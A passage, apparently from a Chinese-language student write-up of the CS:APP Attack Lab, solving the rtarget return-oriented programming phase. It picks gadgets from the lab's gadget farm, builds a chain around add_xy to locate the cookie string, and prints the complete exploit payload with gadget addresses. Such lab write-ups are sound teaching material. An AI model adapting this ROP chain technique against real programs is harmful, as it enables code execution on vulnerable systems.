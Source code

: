 ```bash
0000000000401a68 <getval_311>:
  401a68:       b8 89 d1 08 db          mov    $0xdb08d189,%eax
  401a6d:       c3                      retq
--
0000000000401a83 <addval_358>:
  401a83:       8d 87 08 89 e0 90       lea    -0x6f1f76f8(%rdi),%eax
  401a89:       c3                      retq
```
对照表格，我们可以发现只有以下这些指令是可以使用的
```x86asm
popq   %rax             (1)

movq   %rax, %rdi       (2)
movq   %rsp, %rax       (3)

movl   %eax, %edx       (4)
movl   %ecx, %esi       (5)
movl   %edx, %ecx       (6)
movl   %esp, %eax       (7)
```
看起来似乎没有什么有用的，但注意到函数 *add_xy* 
```x86asm
00000000004019d6 <add_xy>:
  4019d6:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:       c3                      retq
```
这里有个加法运算，其使用的寄存器 *%rdi, %rsi, %rax* 都是我们能操作的  

所以大概思路就是通过 *%rsp* 和某个栈中常数计算出 *sval* 的首地址
$$\left .
   \begin{aligned}
      \%rsp \xrightarrow{(3)} \%rax \xrightarrow{(2)} \%rdi \\
      const\xrightarrow{(1)} \%rax \xrightarrow{(4)} \%edx \xrightarrow{(6)} \%ecx \xrightarrow{(5)} \%esi 
   \end{aligned}
\right\}
\xrightarrow{add\_xy} \%rax \xrightarrow{(2)} \%rdi$$

计划通$\checkmark\quad$接下来的是就是确定 *const* 的值了，这里要注意的是，由于使用了 *movl* ，所以 *const* 不能是负值，不能把字符串放在栈顶

假如按照 (3)(2)(1)(4)(6)(5)(add_xy)(2) 的顺序，那么 $const = 9 * 0x8 = 0x48$
```bash
$cat rtarget.5.txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

06 1a 40 00 00 00 00 00      /*   movq   %rsp, %rax      */
a2 19 40 00 00 00 00 00      /*   movq   %rax, %rdi      */
ab 19 40 00 00 00 00 00      /*   popq   %rax            */
48 00 00 00 00 00 00 00      /*   const value            */
dd 19 40 00 00 00 00 00      /*   movl   %eax, %edx      */
34 1a 40 00 00 00 00 00      /*   movl   %edx, %ecx      */
13 1a 40 00 00 00 00 00      /*   movl   %ecx, %esi      */
d6 19 40 00 00 00 00 00      /*   address of add_xy      */
a2 19 40 00 00 00 00 00      /*   movq   %rax, %rdi      */
fa 18 40 00 00 00 00 00      /*   address of touch3      */
35 39 62 39 39 37 66 61 00   /* ascii code of "59b997fa" */
```